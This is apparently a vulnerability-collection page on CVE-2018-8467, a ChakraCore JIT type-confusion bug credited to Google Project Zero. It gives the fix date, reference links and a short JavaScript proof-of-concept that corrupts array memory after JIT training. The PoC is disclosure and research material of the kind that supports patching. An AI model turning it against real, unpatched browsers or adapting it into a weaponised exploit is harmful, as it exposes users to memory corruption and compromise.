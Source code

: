 # CVE-2018-8467

- Fix: Sep 2018
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function opt(arr, arr2) {
    arr[0] = 1.1;

    arr2.method(arr2[0] = {});

    arr[0] = 2.3023e-320;
}

Object.prototype.method = () => {};

let arr = [1.1, 2.2];
for (let i = 0; i < 100; i++) {
    opt(arr, 1);  // Feeding an integer to make the value type LikelyCanBeTaggedValue_Int_PrimitiveOrObject
    opt(arr, arr.concat());
}

setTimeout(() => {
    opt(arr, arr);
    alert(arr);
}, 100);  // Waiting for the JIT server to finish its job.
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2018-8467)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1613)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/07a72e2849aab95ccdc178afbdab442cfee75368)
